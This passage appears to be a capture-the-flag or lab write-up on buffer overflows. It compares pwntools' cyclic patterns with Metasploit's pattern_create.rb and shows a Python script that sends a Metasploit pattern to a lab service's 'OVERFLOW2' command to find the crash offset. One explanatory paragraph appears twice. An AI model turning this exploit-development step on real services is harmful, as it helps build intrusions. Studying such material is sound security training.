 On the other hand, the `pattern_create.rb` script in Metasploit generates a non-repeating pattern that consists of unique characters. It uses a different algorithm that creates a pattern without any repeated substrings. This pattern is often used in the context of identifying the offset where a buffer overflow occurs, as the unique pattern can help determine the exact location of the overwrite.

The cyclic function in pwntools generates a cyclic pattern by repeating a sequence of characters. It uses a specific algorithm that creates a unique pattern based on the length provided. This pattern is intended to be useful for identifying the offset at which the program crashes or exhibits abnormal behavior when the pattern is sent as input.

On the other hand, the pattern_create.rb script in Metasploit generates a non-repeating pattern that consists of unique characters. It uses a different algorithm that creates a pattern without any repeated substrings. This pattern is often used in the context of identifying the offset where a buffer overflow occurs, as the unique pattern can help determine the exact location of the overwrite.

So I modified the `find_offset.py` script as follows.

```python
from pwn import *
import subprocess as sb

ip = "10.10.17.141"
port = 1337
command = "OVERFLOW2 "
timeout = 5

pattern_create = "/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb"

bof_value = 700

payload = (sb.check_output(["ruby", pattern_create, "-l", str(bof_value + 400)])).strip()

r = remote(host=ip, port=port, ssl=False)
print(r.recv().decode())

input_value = command.encode() + payload
r.sendline(input_value)
```

The result is markedly different.

<div><p align="center"><img  src="img/mona2_1.png" /></div>
